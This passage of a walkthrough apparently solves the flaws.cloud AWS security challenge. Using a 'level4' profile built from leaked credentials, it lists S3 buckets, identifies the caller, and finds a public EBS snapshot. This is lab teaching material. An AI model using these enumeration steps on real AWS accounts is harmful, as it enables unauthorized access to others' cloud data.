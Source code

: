 ```
% aws --profile level4 s3 ls
2017-02-12 16:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 12:34:53 config-bucket-975426262029
2017-02-12 15:03:24 flaws-logs
2017-02-04 22:40:07 flaws.cloud
2017-02-23 20:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 13:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 13:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 14:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 14:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 15:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

#### Lesson Learned
- Leaked AWS credentials. 

### Level 4

For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud
It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it.

--- 
Finding an account ID that was used to snapshot the disk volumn of the EC2.

```
% aws --profile level4 sts get-caller-identity
{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}
```

Querying the EC2.

```
% aws --profile level4 ec2 describe-snapshots --owner-id 975426262029

You must specify a region. You can also configure your region by running "aws configure".

% aws --profile level4 ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
{
    "Snapshots": [
        {
            "Description": "",
            "Encrypted": false,
            "OwnerId": "975426262029",
            "Progress": "100%",
            "SnapshotId": "snap-0b49342abd1bdcb89",
            "StartTime": "2017-02-28T01:35:12+00:00",
            "State": "completed",
            "VolumeId": "vol-04f1c039bc13ea950",
            "VolumeSize": 8,
            "Tags": [
                {
                    "Key": "Name",
                    "Value": "flaws backup 2017.02.27"
                }
            ],
            "StorageTier": "standard"
        }
    ]
}
```